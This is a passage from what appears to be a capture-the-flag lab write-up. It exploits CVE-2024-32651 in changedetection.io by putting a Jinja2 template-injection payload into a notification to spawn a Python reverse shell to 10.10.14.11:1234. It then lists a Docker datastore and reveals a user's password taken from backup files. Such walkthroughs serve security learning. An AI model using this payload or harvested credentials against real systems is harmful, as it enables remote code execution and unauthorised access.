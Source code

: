 Take to github repo of this website and see in security tab, that's [CVE-2024-32651](https://github.com/dgtlmoon/changedetection.io/security/advisories/GHSA-4r7v-whpg-8rx3) to server side command execute 

This CVE show that the notification which can run Jinja2 code will run and send to the client while the website monitoring is changed

So we add my website to monitoring list and host a simple python server and add Jinja2 code to send reverse shell to my kali

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').system('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.11",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")\'') }}
```

![image](https://raw.githubusercontent.com/ficstkeyfx/ficstkeyfx.github.io/refs/heads/main/.github/images/20241025_noti_ssce.png)

Run netcat to listen in port 1234 and now we get reverse shell but this is not root in the real lab, it is just in docker system.

 After enumerating the docker containers, I found that there is ```/datastore``` , which seems to have some backup files and the like.
```console
root@a4b9a36ae7ff:/# cd /datastore 
root@a4b9a36ae7ff:/datastore# ls 
Backups                               secret.txt              url
watches.json 
b86f1003-3ecb-4125-b090-27e15ca605b9  url-list-with-tags.txt 
bbdd78f6-db98-45eb-9e7b-681a0c60ea34  url-list.txt 
root@a4b9a36ae7ff:/datastore# cd Backups 
root@a4b9a36ae7ff:/datastore/Backups# ls 
changedetection-backup-20240830194841.zip 
changedetection-backup-20240830202524.zip 
```

Take a look in this backup file and we can get the credentials of ```adam``` user is ```adam_admin992```

